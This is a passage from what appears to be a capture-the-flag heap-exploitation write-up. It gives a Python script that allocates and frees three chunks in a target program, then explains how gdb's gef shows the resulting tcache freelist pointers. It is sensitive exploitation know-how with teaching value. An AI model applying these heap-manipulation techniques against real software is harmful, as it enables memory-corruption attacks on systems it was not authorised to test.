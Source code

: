 ```py
def send(payload):
    p.recvuntil(b">") # thank you nordbo
    p.sendline(payload)

send(b"1") #create (malloc)
send(b"0")

send(b"1") #create (malloc)
send(b"1")

send(b"1") #create (malloc)
send(b"2")

send(b"4") #delete (free)
send(b"2")

send(b"4") #delete (free)
send(b"1")

send(b"4") #delete (free)
send(b"0")

p.interactive()
```

Notice that I free'd the chunks in the opposite order to the one i created them in. After running this and attaching with gdb, we can run visual-heap in gef to view the heap at the current moment:

![visual heap](./images/vis.png "visual heap")

The colors in the output represents separate chunks. They have been free'd which you can see from the `tcache[idx=4,sz=0x60][1/3]` text on the right. The \[1/3] part of that is the most important and refers to it being the first in a linked list of the three freed chunks. We can also see this in the heap content itself. If you look at the first pointer in the first chunk (the one at 0x68c2a0) you see the address 0x68c300 which is the address of the second chunk! The linked list structure can be further confirmed by the first pointer in the second chunk pointing to the last free'd chunk (at 0x68c360). 
